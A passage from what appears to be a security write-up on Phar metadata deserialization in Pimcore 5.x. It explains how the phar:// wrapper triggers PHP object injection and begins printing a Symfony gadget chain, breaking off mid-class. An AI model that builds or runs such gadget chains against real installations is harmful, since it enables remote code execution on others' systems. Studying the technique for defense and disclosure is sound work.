 Our newly created `test.phar` file now has the following content. We can see that our object was stored as a serialized string.

![Hex view of the created Phar file](./assets/img/hex01.png)

#### PHP Object Injection

If a file operation is now performed on our existing Phar file via the `phar://` wrapper, then its serialized meta data is **unserialized**. This means that our injected object in the meta data is loaded into the application’s scope. If this application has a class named TestObject and it has the magic method `__destruct()` or `__wakeup()` defined, then those methods are automatically invoked. This means we can trigger any destructor or wakeup method in the code base. Even worse, if these methods operate on our injected data then this can lead to further vulnerabilities.

Pimcore version 5.x is based on Symfony. In order to trigger a destruct method we can use a Symfony gadget chain like the following:
```php
namespace Symfony\Component\Cache\Traits
{
    use \Psr\Log\LoggerAwareTrait;

    trait AbstractTrait
    {
        use LoggerAwareTrait;

        private $namespace;
        private $deferred;
    }
}

namespace Psr\Log
{
    trait LoggerAwareTrait
    {
    }
}

namespace Symfony\Component\Cache\Adapter
{
    use \Symfony\Component\Cache\Traits\AbstractTrait;

    abstract class AbstractAdapter
    {
```